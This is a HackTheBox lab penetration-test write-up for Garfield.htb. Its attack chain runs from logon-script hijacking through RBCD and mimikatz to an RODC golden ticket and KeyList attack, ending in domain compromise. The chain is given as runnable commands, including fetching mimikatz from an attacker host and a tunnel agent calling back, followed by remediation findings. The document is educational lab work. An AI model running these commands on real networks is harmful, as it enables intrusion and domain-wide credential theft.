# Garfield.htb — Penetration Test Report

*HackTheBox*

| **Field** | **Value** |
|---|---|
| **Date** | April 2026 |
| **Platform** | HackTheBox |
| **Difficulty** | Hard |
| **Classification** | Confidential |

**Table of Contents**

- [Executive Summary](#executive-summary)
- [Initial Enumeration](#initial-enumeration)
- [scriptPath Exploitation](#scriptpath-exploitation)
- [Foothold — Logon Script Hijacking](#foothold-logon-script-hijacking)
- [RODC Exploitation](#rodc-exploitation)
- [S4U2Proxy & SYSTEM Access](#s4u2proxy-system-access)
- [Dumping krbtgt_8245](#dumping-krbtgt_8245)
- [Password Replication Policy Manipulation](#password-replication-policy-manipulation)
- [RODC Golden Ticket & Key List Attack](#rodc-golden-ticket-key-list-attack)
- [Domain Compromise](#domain-compromise)
- [Attack Chain Summary](#attack-chain-summary)
- [Key Takeaways](#key-takeaways)
- [Findings & Remediation](#findings-remediation)

## Executive Summary

This report documents the penetration test conducted against the Garfield.htb machine on the HackTheBox platform. The target environment is a multi-tier Active Directory domain featuring a primary domain controller (DC01) and a Read-Only Domain Controller (RODC01) on an internal network segment.

The engagement progressed from initial credential access through SYSVOL script enumeration, logon script hijacking for foothold, Active Directory privilege escalation via ForceChangePassword abuse, RBCD exploitation to compromise the RODC, and ultimately a KeyList attack to obtain Domain Administrator credentials on DC01.

**Scope**

| **Target**              | garfield.htb (10.129.244.207)                                                                                 |
|-------------------------|---------------------------------------------------------------------------------------------------------------|
| **Internal Subnet**     | 192.168.100.0/24                                                                                              |
| **Domain**              | GARFIELD.HTB                                                                                                  |
| **Initial Credentials** | j.arbuckle : Th1sD4mnC4t!@1978                                                                                |
| **Tools Used**          | nmap, smbclient, netexec, BloodHound, bloodyAD, ldapsearch, Rubeus, mimikatz, Impacket, ligolo-ng, Evil-WinRM |

## Initial Enumeration

### SMB & Share Enumeration

Using the provided credentials for j.arbuckle, initial enumeration was performed against SMB to identify domain users and accessible shares.

```bash
nxc smb garfield.htb -u j.arbuckle -p'Th1sD4mnC4t!@1978' --users
nxc smb garfield.htb -u j.arbuckle -p'Th1sD4mnC4t!@1978' --shares
```

The spider_plus module in NetExec was used to recursively map all accessible shares. A /scripts/ directory was identified in SYSVOL containing a printerDetect.bat file, along with a matching entry in NETLOGON — indicating a logon script executed during user authentication.

```bash
smbclient '//10.129.244.207/SYSVOL' -U 'j.arbuckle'
```



The printerDetect.bat script contents were benign. However, testing revealed write permissions on the \scripts\\ directory. This could alternatively have been confirmed more efficiently using smbcacls for permission enumeration.

This write access presents an immediate attack opportunity: replacing the logon script with a reverse shell payload. This avenue was noted and reserved while further enumeration continued.

### BloodHound Analysis

```bash
nxc ldap garfield.htb -u j.arbuckle -p'Th1sD4mnC4t!@1978' \
--bloodhound -c All --dns-server 10.129.244.207
```

BloodHound collection revealed the following key relationships:

- j.arbuckle is a member of IT SUPPORT@GARFIELD.HTB.

- L.WILSON@GARFIELD.HTB has ForceChangePassword over her own _ADM account, suggesting this is a target for privilege escalation.

- No obvious next step beyond logon script exploitation was identified at this stage.




Further DACL enumeration was conducted using bloodyAD to identify writable ACEs:

```bash
bloodyAD --host garfield.htb \
-u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' \
get writable --detail
```

## scriptPath Exploitation

Investigation into the scriptPath attribute for target users revealed it was unset, confirmed via ldapsearch:

```bash
ldapsearch -D 'j.arbuckle@garfield.htb' -W -H ldap://garfield.htb -x \
-b 'DC=garfield,DC=htb' '(sAMAccountName=l.wilson*)' cn scriptPath
```

This confirmed that the scriptPath attribute could be set to point to an attacker-controlled script. The payload was generated as a simple single-stage reverse shell from revshells.com.

**Note:** PowerShell's -e flag expects UTF-16LE encoded Base64, not UTF-8. The correct encoding approach:

```bash
# Bash:
printf 'whoami' | iconv -t UTF-16LE | base64
# PowerShell:
[Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes("whoami"))
```

## Foothold — Logon Script Hijacking

The reverse shell payload was uploaded to the SYSVOL scripts directory with a .bat extension (required by a protection policy limiting execution to .bat files). The scriptPath attribute for l.wilson was then modified remotely using bloodyAD:

```bash
bloodyAD --host garfield.htb -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' \
set object "CN=Liz Wilson,CN=Users,DC=garfield,DC=htb" \
scriptPath -v revShell.bat
```



Upon the next logon event for l.wilson, the reverse shell executed successfully, providing an interactive session.

### Privilege Escalation to l.wilson_adm

Leveraging the ForceChangePassword relationship identified in BloodHound, the password for l.wilson_adm was reset. The Set-ADAccountPassword cmdlet was used as the net user alternative failed due to underlying protocol differences:

```bash
Set-ADAccountPassword -Identity l.wilson_adm -Reset \
-NewPassword (ConvertTo-SecureString 'Sup3rS3curP@55word' -AsPlainText -Force)
```



The l.wilson_adm account provided the user flag but did not grant Domain Admin access, indicating further escalation was required.

### Internal Network Discovery

Basic enumeration from the compromised host revealed an internal subnet at 192.168.100.0/24. Since ICMP was unreliable, a TCP port scan was used:

```bash
1..254 | % { $ip = "192.168.100.$_"
if (Test-NetConnection $ip -Port 445 -WarningAction SilentlyContinue \
-InformationLevel Quiet) { "$ip : 445 open" }
}
```



## RODC Exploitation

BloodHound revealed that l.wilson_adm holds ForceChangePassword and WriteAccountRestrictions on RODC01.GARFIELD.HTB, as well as AddSelf to the RODC ADMINISTRATORS group.

**Background:** A Read-Only Domain Controller (RODC) is designed for branch or semi-trusted locations. It maintains a filtered copy of AD for LDAP queries and can cache selected credentials through the Password Replication Policy (PRP).

*Reference:* [<u>SpecterOps — At the Edge of Tier Zero: The Curious Case of the RODC</u>](https://specterops.io/blog/2023/01/25/at-the-edge-of-tier-zero-the-curious-case-of-the-rodc/)

### RBCD & Tunnelling

Initial attempts to add the account to RODC Administrators via net group failed with Access Denied (error 5) due to an unelevated shell. bloodyAD was used as an alternative:

```bash
bloodyAD --host garfield.htb -u 'l.wilson_adm' -p 'Sup3rS3curP@55word' \
add groupMember "RODC Administrators" l.wilson_adm
```



Direct access to RODC01 was required for machine account creation. A ligolo-ng tunnel was established:

**Ligolo-ng Setup**

```bash
# PROXY SERVER - Attacker (Linux):
sudo ./proxy -selfcert
ligolo-ng » ifcreate --name ligolo
ligolo-ng » route_add --name ligolo --route 192.168.100.0/24
# AGENT - Victim (Windows):
Start-Process -FilePath ".\agent.exe" \
-ArgumentList "-connect 10.10.14.123:11601 -ignore-cert" \
-WindowStyle Hidden
```

A machine account was created for the RBCD attack. Note: addcomputer.py initially attempted LDAPS which failed; explicit LDAP was required:

```bash
python3 addcomputer.py -computer-name 'RODCattacker$' \
-computer-pass 'Sup3rS3curP@55word' \
-dc-host DC01.garfield.htb -domain-netbios GARFIELD \
'garfield.htb/l.wilson_adm:Sup3rS3curP@55word'
```

RBCD delegation was configured:

```bash
python3 rbcd.py -delegate-from 'RODCattacker$' -delegate-to 'RODC01$' \
-action 'write' 'garfield.htb/l.wilson_adm:Sup3rS3curP@55word'
```

## S4U2Proxy & SYSTEM Access

The Kerberos clock skew error was resolved using faketime synchronised against the domain controller. The S4U2Self/S4U2Proxy chain was then executed to obtain an impersonated Administrator ticket for RODC01:

```bash
faketime "$(ntpdate -q garfield.htb | cut -d ' ' -f 1,2)" \
impacket-getST -spn 'cifs/RODC01.garfield.htb' \
-impersonate 'Administrator' \
'garfield.htb/RODCattacker$:Sup3rS3curP@55word'
```



```bash
export KRB5CCNAME=Administrator@cifs_RODC01.garfield.htb@GARFIELD.HTB.ccache
faketime "$(ntpdate -q garfield.htb | cut -d ' ' -f 1,2)" \
impacket-psexec -k -no-pass garfield.htb/Administrator@RODC01.garfield.htb
```



This yielded SYSTEM access on RODC01. However, the root flag was not located here — further exploitation of the RODC was required to reach DC01.

## Dumping krbtgt_8245

Mimikatz was transferred to RODC01 via certutil and executed to extract the RODC’s sub-krbtgt key. Due to the PsExec session limitations, mimikatz was run as a one-liner:

```bash
certutil -urlcache -f http://10.10.14.123/mimikatz.exe mimikatz.exe
mimikatz.exe "privilege::debug" \
"lsadump::lsa /inject /name:krbtgt_8245" "exit"
```

The AES256 key was extracted as the most reliable option for ticket forging:

```
d6c93cbe006372adb8403630f9e86594f52c8105a52f9b21fef62e9c7a75e240
```





## Password Replication Policy Manipulation

The RODC’s Password Replication Policy controls which accounts can be cached. The default configuration denies high-privilege accounts:

- msDS-NeverRevealGroup (Deny list) — includes CN=Administrators,CN=Builtin

- msDS-RevealOnDemandGroup (Allow list) — only "Allowed RODC Password Replication Group"

For the KeyList attack to succeed, Administrator must be added to the allow list and removed from the deny list. This was possible through l.wilson_adm’s RODC Administrators membership:

```bash
# Add Administrator to allow list:
bloodyAD --host DC01.garfield.htb -u 'l.wilson_adm' -p 'Sup3rS3curP@55word' \
set object 'RODC01$' msDS-RevealOnDemandGroup \
-v 'CN=Allowed RODC Password Replication Group,CN=Users,DC=garfield,DC=htb' \
-v 'CN=Administrator,CN=Users,DC=garfield,DC=htb'
# Clear the deny list:
bloodyAD --host DC01.garfield.htb \
-u 'l.wilson_adm' -p 'Sup3rS3curP@55word' \
set object 'RODC01$' msDS-NeverRevealGroup
```

## RODC Golden Ticket & Key List Attack

With the PRP modified, an RODC golden ticket was forged using Rubeus (v2.3.3+ required):

```bash
.\Rubeus.exe golden `
/rodcNumber:8245 `
/flags:forwardable,renewable,enc_pa_rep `
/nowrap `
/outfile:ticket.kirbi `
/aes256:d6c93cbe006372adb8403630f9e86594f52c8105a52f9b21fef62e9c7a75e240 `
/user:Administrator `
/id:500 `
/domain:garfield.htb `
/sid:S-1-5-21-2502726253-3859040611-225969357
```

The KeyList attack was then executed from RODC01, requesting the real Administrator credential from DC01:

```bash
.\Rubeus.exe asktgs /enctype:aes256 /keyList \
/service:krbtgt/garfield.htb /dc:DC01.garfield.htb \
/ticket:ticket.kirbi /nowrap
```



**How the KeyList Attack Works:** This abuses the legitimate RODC credential replication mechanism. When an RODC needs to authenticate a user whose credentials are not cached, it sends a TGS request to the primary KDC bearing: a valid TGT signed with the RODC’s sub-krbtgt key, a PA-ENC-PA-REP flag signalling an RODC-originating request, and a KeyList PAC extension requesting the target account’s credentials.

## Domain Compromise

The KeyList attack returned the Administrator NTLM hash for DC01, enabling full domain compromise:

```bash
evil-winrm -i 10.129.244.207 -u Administrator -H '<HASH>'
```

For complete credential extraction, the Kerberos ticket was converted and used with secretsdump:

```bash
echo -n '<base64 ticket>' | tr -d ' \r\n\t' | base64 -d > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache
export KRB5CCNAME=ticket.ccache
faketime "$(ntpdate -q garfield.htb | cut -d ' ' -f 1,2)" \
secretsdump.py -k -no-pass DC01.garfield.htb
```



**Note:** Console copy issues with the Base64 ticket were resolved by using Rubeus’ /outfile flag to write directly to disk, then transferring the .kirbi file to the attacker machine.

## Attack Chain Summary

| **#** | **Phase**                 | **Technique**                                                                       |
|--------|---------------------------|-------------------------------------------------------------------------------------|
| **1**  | **Enumeration**           | SMB share spider, BloodHound collection, bloodyAD writable ACE enumeration          |
| **2**  | **scriptPath Hijack**     | Write .bat payload to SYSVOL, set scriptPath attribute via bloodyAD                 |
| **3**  | **Foothold**              | Logon script execution as l.wilson, ForceChangePassword to l.wilson_adm             |
| **4**  | **Internal Pivot**        | ligolo-ng tunnel to 192.168.100.0/24, TCP port sweep                                |
| **5**  | **RODC Compromise**       | RBCD via addcomputer.py + rbcd.py, S4U2Proxy impersonation to SYSTEM on RODC01      |
| **6**  | **Credential Extraction** | mimikatz lsadump for krbtgt_8245 AES256 key                                         |
| **7**  | **PRP Manipulation**      | bloodyAD to modify msDS-RevealOnDemandGroup / msDS-NeverRevealGroup                 |
| **8**  | **Domain Compromise**     | Rubeus RODC golden ticket + KeyList attack, secretsdump for full domain credentials |

## Key Takeaways

- PowerShell -e expects UTF-16LE encoded Base64 — not UTF-8. Use iconv or [Text.Encoding]::Unicode.

- Set-ADAccountPassword and net user use different underlying protocols; the former may succeed where the latter fails.

- addcomputer.py defaults to LDAPS — explicitly specify LDAP if the target doesn’t support it.

- Rubeus v2.3.3+ is required for RODC golden ticket generation with KeyList support.

- Always use faketime with ntpdate for Kerberos operations against targets with clock skew.

- RODC Password Replication Policy (PRP) is a critical security boundary — WriteAccountRestrictions on an RODC effectively grants the ability to compromise the entire domain.

## Findings & Remediation

This section details the vulnerabilities identified during the engagement against the Garfield.htb domain with heavy AI assistance with this being my first attempt at documenting remediations. It's Ordered by the attack chain phase in which they were exploited. Each finding includes a severity rating, business impact assessment, evidence summary, and actionable remediation guidance. A prioritised remediation summary follows the detailed findings.

### Prioritised Remediation Summary

The following table summarises all findings ordered by severity and recommended remediation timeline. Critical findings should be addressed immediately as they represent direct paths to full domain compromise.

| **ID**      | **Finding**                                                                 | **Severity** | **Remediation Priority**                                                       |
|-------------|-----------------------------------------------------------------------------|--------------|--------------------------------------------------------------------------------|
| **GARF-05** | WriteAccountRestrictions on RODC Enabling RBCD Attack                       | **Critical** | Immediate — Remove WriteAccountRestrictions, set MachineAccountQuota to 0      |
| **GARF-07** | Password Replication Policy Modifiable by Non-Tier 0 Principal              | **Critical** | Immediate — Protect PRP attributes, harden deny list                           |
| **GARF-06** | RODC krbtgt Key Extractable and Never Rotated                               | **Critical** | Immediate — Rotate krbtgt_8245, deploy Credential Guard                        |
| **GARF-08** | No Detection of RODC KeyList Credential Replication                         | **High**     | Within 7 days — Deploy replication monitoring on DC01                          |
| **GARF-01** | Writable SYSVOL Scripts Directory by Low-Privilege Group                    | **High**     | Within 14 days — Restrict SYSVOL write access, deploy FIM                      |
| **GARF-02** | scriptPath Attribute Writable by IT SUPPORT Group                           | **High**     | Within 14 days — Replace GenericWrite with attribute-specific ACEs             |
| **GARF-03** | ForceChangePassword Delegation from Standard User to Administrative Account | **Medium**   | Within 30 days — Remove cross-tier ForceChangePassword, implement tiered model |
| **GARF-04** | Stale RODC Administrators Group with Uncontrolled Membership                | **Medium**   | Within 30 days — Delete or lock down stale RODC Administrators group           |

### Detailed Findings

#### GARF-01 — Writable SYSVOL Scripts Directory by Low-Privilege Group

**Severity:** High

**Affected Asset(s):** \\GARFIELD.HTB\SYSVOL\garfield.htb\scripts\

**Description:** Members of the IT SUPPORT group have write access to the SYSVOL scripts directory. This directory hosts logon scripts (printerDetect.bat) that execute automatically when users authenticate to the domain.
An attacker with any IT SUPPORT credential can replace or add malicious scripts that will execute in the security context of any user whose scriptPath attribute references this directory.

**Business Impact:** Any compromised IT SUPPORT account can achieve code execution as any domain user who logs in with a script mapped to this directory. This was the initial foothold vector in this engagement.

**Evidence:** Write test to \\10.129.244.207\SYSVOL\garfield.htb\scripts\ succeeded as j.arbuckle. Confirmed via smbclient upload and smbcacls permission enumeration.

**Remediation:** Remove write permissions for IT SUPPORT on the SYSVOL scripts directory. Only Domain Admins and a dedicated GPO management group should have write access.
Enforce this via Group Policy: Computer Configuration → Policies → Windows Settings → Security Settings → File System. Define explicit ACLs on the scripts directory.
Implement file integrity monitoring (e.g. OSSEC, Sysmon EventID 11) on SYSVOL to alert on any script modifications.

**Reference:** Microsoft: Securing SYSVOL — https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices

#### GARF-02 — scriptPath Attribute Writable by IT SUPPORT Group

**Severity:** High

**Affected Asset(s):** User objects in CN=Users,DC=garfield,DC=htb

**Description:** The IT SUPPORT group has GenericWrite (or WriteProperty) on user objects, which includes the ability to modify the scriptPath attribute. This attribute defines which logon script executes when a user authenticates.
Combined with GARF-01, this allows an attacker to both create a malicious script and point any user account at it, guaranteeing execution on their next logon.

**Business Impact:** Arbitrary code execution as any targeted domain user on their next logon. In this engagement, l.wilson was targeted, providing a foothold as a standard domain user with ForceChangePassword rights over a privileged account.

**Evidence:** bloodyAD 'get writable --detail' confirmed WriteProperty on scriptPath for IT SUPPORT members. Successfully set scriptPath for l.wilson to attacker-controlled revShell.bat.

**Remediation:** Remove GenericWrite / WriteProperty from the IT SUPPORT group on user objects. Use the principle of least privilege — if IT SUPPORT needs to manage certain user attributes (e.g. phone number, office), grant WriteProperty only on those specific attributes via an explicit ACE rather than broad GenericWrite.
Audit current delegated permissions with: Get-ACL 'AD:\CN=Users,DC=garfield,DC=htb' | Format-List, or use BloodHound / ADExplorer to review outbound permissions from the IT SUPPORT group.
Consider protecting sensitive attributes (scriptPath, profilePath, homeDirectory) with AdminSDHolder or a dedicated deny ACE for non-privileged groups.

**Reference:** Microsoft: Delegate Administration — https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/delegating-administration

#### GARF-03 — ForceChangePassword Delegation from Standard User to Administrative Account

**Severity:** Medium

**Affected Asset(s):** L.WILSON@GARFIELD.HTB → L.WILSON_ADM@GARFIELD.HTB

**Description:** The standard user l.wilson holds ForceChangePassword rights over the administrative account l.wilson_adm. While this may have been configured for self-service password management, it creates a direct privilege escalation path from a Tier 2 (standard user) account to a Tier 1 (administrative) account.

**Business Impact:** Compromise of l.wilson immediately grants control of l.wilson_adm without requiring the existing password. This bypasses the intended tier separation between standard and administrative accounts.

**Evidence:** BloodHound identified the ForceChangePassword edge. Successfully reset l.wilson_adm password via Set-ADAccountPassword from l.wilson shell.

**Remediation:** Remove the ForceChangePassword ACE from l.wilson on the l.wilson_adm object. Administrative accounts should never have their password resettable by the corresponding standard account.
Implement the tiered administration model: Tier 0 (DC/forest), Tier 1 (servers/admin), Tier 2 (workstations/users). No cross-tier password reset rights.
For self-service admin password resets, use a PAM solution (e.g. Microsoft LAPS, CyberArk) or require a Tier 0 administrator to perform the reset.
Audit all ForceChangePassword delegations domain-wide using: Find-InterestingDomainAcl -ResolveGUIDs (PowerView) or BloodHound's 'Shortest Paths to Domain Admin' query.

**Reference:** Microsoft Tiered Administration Model — https://learn.microsoft.com/en-us/security/privileged-access-workstations/privileged-access-access-model

#### GARF-04 — Stale RODC Administrators Group with Uncontrolled Membership

**Severity:** Medium

**Affected Asset(s):** RODC ADMINISTRATORS@GARFIELD.HTB, RODC01.GARFIELD.HTB

**Description:** The RODC Administrators group was found empty and appeared to be a legacy group that was never removed or locked down. The l.wilson_adm account held AddSelf rights to this group, allowing self-enrolment without any approval workflow.
Membership in RODC Administrators grants significant control over the RODC computer object, including the ability to manage the Password Replication Policy attributes.

**Business Impact:** An attacker controlling l.wilson_adm can silently join this group and gain the permissions needed to manipulate the RODC for credential replication attacks (see GARF-05, GARF-06).

**Evidence:** BloodHound showed AddSelf edge from l.wilson_adm to RODC Administrators. Successfully added l.wilson_adm to the group via bloodyAD 'add groupMember'.

**Remediation:** If the RODC Administrators group is no longer required, delete it. If it is required, remove the AddSelf ACE from l.wilson_adm (and any other non-Tier 0 principals).
Audit all security groups with no members — stale groups with residual permissions are a common attack vector. Use: Get-ADGroup -Filter {Members -notlike '*'} -Properties Members | Select Name
Monitor group membership changes for sensitive groups via Windows Event ID 4728/4732/4756 and forward to SIEM.

**Reference:** Microsoft: RODC Deployment — https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/deploy/rodc/read-only-domain-controllers

#### GARF-05 — WriteAccountRestrictions on RODC Enabling RBCD Attack

**Severity:** Critical

**Affected Asset(s):** RODC01.GARFIELD.HTB

**Description:** The l.wilson_adm account (via RODC Administrators group membership) holds WriteAccountRestrictions on the RODC01 computer object. This permission allows modification of the msDS-AllowedToActOnBehalfOfOtherIdentity attribute, enabling Resource-Based Constrained Delegation (RBCD).
By creating a machine account (RODCattacker$) and configuring RBCD, the S4U2Self/S4U2Proxy extension was abused to impersonate Administrator and gain SYSTEM access on RODC01.

**Business Impact:** Full SYSTEM-level compromise of the RODC. This provided a platform for credential extraction (GARF-06) and PRP manipulation (GARF-07) that ultimately led to total domain compromise.

**Evidence:** RBCD configured via rbcd.py -delegate-from RODCattacker$ -delegate-to RODC01$. Administrator ticket obtained via impacket-getST with S4U2Proxy. SYSTEM shell confirmed via impacket-psexec.

**Remediation:** Remove WriteAccountRestrictions from all non-Tier 0 principals on RODC computer objects. Only Domain Admins should be able to modify delegation attributes on domain controllers of any type.
Specifically remove or replace the ACE: Set-ACL on the RODC01 computer object to deny WriteProperty on msDS-AllowedToActOnBehalfOfOtherIdentity for non-Domain Admin principals.
Restrict machine account creation: set ms-DS-MachineAccountQuota to 0 (default is 10) to prevent unprivileged users from creating the attacker-controlled machine accounts required for RBCD. Command: Set-ADDomain -Identity garfield.htb -Replace @{'ms-DS-MachineAccountQuota'='0'}
